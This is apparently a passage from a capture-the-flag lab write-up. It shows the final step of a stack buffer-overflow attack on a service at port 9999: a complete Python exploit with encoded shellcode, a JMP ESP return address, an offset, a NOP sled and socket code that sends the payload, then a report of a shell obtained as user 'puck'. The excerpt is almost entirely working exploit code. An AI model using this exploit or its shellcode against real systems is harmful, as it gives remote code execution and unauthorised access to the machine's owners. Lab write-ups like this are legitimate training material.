 ### Step 6: Writing final exploit 

```python
import socket
import pwn

shellcode =  b""
shellcode += b"\xba\x9d\x29\x7f\xfa\xdd\xc4\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x12\x31\x50\x12\x03\x50\x12"
shellcode += b"\x83\x75\xd5\x9d\x0f\xb4\xfd\x95\x13\xe5\x42"
shellcode += b"\x09\xbe\x0b\xcc\x4c\x8e\x6d\x03\x0e\x7c\x28"
shellcode += b"\x2b\x30\x4e\x4a\x02\x36\xa9\x22\x9f\xc3\x6a"
shellcode += b"\x21\xf7\xd1\x6c\x54\x54\x5f\x8d\xe6\x02\x0f"
shellcode += b"\x1f\x55\x78\xac\x16\xb8\xb3\x33\x7a\x52\x22"
shellcode += b"\x1b\x08\xca\xd2\x4c\xc1\x68\x4a\x1a\xfe\x3e"
shellcode += b"\xdf\x95\xe0\x0e\xd4\x68\x62"

jmp_esp = 0x311712F3 #0x7BCCE5D9
offset = 495
buffer = b"A" * offset + pwn.p32(jmp_esp) + b"\x90" * 32 + shellcode

target = '10.10.92.146'
#target = '127.0.0.1'
port = 9999

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, port))
    s.send((b"                          >> " + buffer))
    s.close()
except:
    print(f"Error connecting to the server...")
```

And we got a shell as **puck**:

![](img/shell2.png)

___

## Privesc
